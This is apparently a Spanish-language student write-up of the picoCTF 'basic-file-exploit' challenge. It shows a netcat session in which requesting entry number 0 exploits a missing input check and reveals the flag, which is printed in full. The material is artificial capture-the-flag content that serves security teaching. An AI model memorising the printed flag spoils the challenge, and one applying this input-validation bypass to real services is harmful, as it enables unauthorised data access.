 ## Descripción 
```
The program provided allows you to write to a file and read what you wrote from it. Try playing around with it and see if you can break it!The program's source code with the flag redacted can be downloaded [here](https://artifacts.picoctf.net/c/141/program-redacted.c).Connect to the program with netcat:`$ nc saturn.picoctf.net 58110`
```
[](https://github.com/armandoportillo0101/Seguridad-de-Redes/blob/main/Plantilla.md#objetivo)
## Solución
```
porti_04@DESKTOP-8HT902T:~/pico_retos/binexp/basicfileexploit$ wget https://artifacts.picoctf.net/c/141/program-redacted.c
porti_04@DESKTOP-8HT902T:~/pico_retos/binexp/basicfileexploit$ nano program-redacted.c
porti_04@DESKTOP-8HT902T:~/pico_retos/binexp/basicfileexploit$  nc saturn.picoctf.net 55458
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
1
1
Please enter your data:
Armando
Armando
Please enter the length of your data:
6
6
Your entry number is: 1
Write successful, would you like to do anything else?
2
2
Please enter the entry number of your data:
1
1
Armand
Read successful, would you like to do anything else?
2
2
Please enter the entry number of your data:
0
0
picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_E0394EC0}

flag: picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_E0394EC0}
```
[](https://github.com/armandoportillo0101/Seguridad-de-Redes/blob/main/Plantilla.md#soluci%C3%B3n)

## Notas Adicionales

[](https://github.com/armandoportillo0101/Seguridad-de-Redes/blob/main/Plantilla.md#notas-adicionales)

### Referencias###